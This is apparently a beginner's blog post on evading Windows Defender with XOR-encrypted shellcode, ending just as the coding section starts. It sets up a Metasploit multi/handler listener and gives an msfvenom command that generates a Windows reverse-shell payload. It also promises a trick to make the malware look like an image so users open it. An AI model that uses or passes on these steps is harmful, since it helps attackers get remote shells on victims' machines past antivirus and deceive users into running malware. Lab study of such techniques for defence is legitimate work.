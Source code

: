 ```yaml
---
title: "Bypass Windows Defender With Xor Encryption"
date: 2024-04-22
---
```


# Prelude

If you're new in malware development, just like me you might've heard that it was possible to bypass windows defender with a simple encryption. 
I could not believe it, so I had to try it and why not put in a blog to describe my experience at the same time!
In this blog I will take you through it step by step. At the end, I will also introduce a clever way of fooling a user into clicking on our malware that will appear as an image.

---

# Environment Setup

If you want also want to perform this simple attack you will need to have to virtual machines
  - Windows Machine (victim)
  - Kali Linux or any other machine with metasploit on it (Attacker)

---

# Configuring your C2 (Command & Control)

Now, I know some of you will say what is a C2 or why am I considering metasploit as C2. Well, let me explain in this case metasploit will act as a command and control center because it will be used to issue commands to the compromised system and also, to receive data from them. Now that the air is cleared let's proceed!

- Start Metasploit Framework
  ```
  sudo service postgresql start && msfconsole -q
  ```
- Configure Listener
  ```
  use multi/handler
  set LHOST <HOST>
  set LPORT <PORT>
  run
  ```
- Generate shellcode
  ```
  msfvenom -p windows/x64/shell_reverse_tcp LHOST=<HOST> LPORT=<PORT> -f c -o <name>.c
  ```

---

  # Coding

  Now for all my fellow hackers who likes programming, I know your hands are itching right now, but you can finally used them or maybe not since I will provide you with the code already written,
  but you can still play around with it if you want to!




